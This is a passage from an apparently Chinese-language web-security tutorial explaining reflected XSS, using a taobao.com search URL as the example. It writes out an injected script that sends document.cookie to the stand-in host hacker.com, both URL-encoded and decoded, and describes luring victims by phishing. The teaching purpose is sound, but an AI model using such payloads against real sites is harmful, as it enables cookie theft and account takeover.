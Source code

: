 如果用户这样请求：

```
https://www.taobao.com/search?keyword=%3Cscript%3Ealert(%22123%22)%3C/script%3E
```

可以看到 keyword 字段的值是一段 JavaScript 脚本，这时候这段脚本就会在页面渲染时被插入页面，进而执行script内的代码。

**获取cookie**

在大多数情况下，cookie 是验证用户身份的唯一凭证，等同于用户名密码。如果这个 cookie 被人窃取了，那么在其有效时间内，就相当于用户名和密码被窃取了。

1. 攻击者通过某种方法 (如 QQ 中冒充好友、垃圾邮件等)，诱使用户点击以下URL：

   ```
   https://www.taobao.com/search?keyword=<script>const%20image%20%3D%20new%20Image%3Bimage.src%3D%27http%3A%2F%2Fhacker.com%2F%27%2Bdocument.cookie<%2Fscript>
   ```

显然后面带的 keyword 是一个脚本，其反转义后如下：

```
<script>const image = new Image;image.src='http://hacker.com/'+document.cookie</script>
```


